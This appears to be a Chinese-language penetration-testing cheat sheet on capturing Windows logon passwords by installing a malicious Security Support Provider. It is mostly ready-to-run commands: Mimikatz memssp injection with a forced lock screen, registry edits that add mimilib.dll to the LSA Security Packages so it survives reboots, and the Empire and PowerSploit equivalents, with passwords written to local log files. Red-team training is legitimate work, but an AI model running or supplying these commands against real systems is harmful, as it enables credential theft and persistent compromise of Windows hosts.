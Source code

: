 	需高权限
 #### Mimikatz
	重启失效
	>privilege::debug
	>misc::memssp
	锁屏
	>rundll32.exe user32.dll,LockWorkStation
![image](/assets/Pentest_Note/master/img/544.png)

	登录的账号密码保存在
	C:\Windows\System32\mimilsa.log
![image](/assets/Pentest_Note/master/img/545.png)

	重启有效
	将mimikatz中的mimilib.dll放入system32目录
	>reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages" 查看注册表
	>reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ  添加mimilib
![image](/assets/Pentest_Note/master/img/546.png)

	有账号登录密码保存在C:\Windows\System32\kiwissp.log重启也有效
![image](/assets/Pentest_Note/master/img/547.png)
 #### Empire
	复制mimilib.dll到system32文件夹中
	>shell copy mimilib.dll C:\Windows\System32\
	使用模块
	>usemodule persistence/misc/install_ssp*
	>set Path C:\Users\Administrator\mimilib.dll
 #### Powersploit
	>Import-Module .\PowerSploit.psm1
	>Install-SSP -Path .\mimilib.dll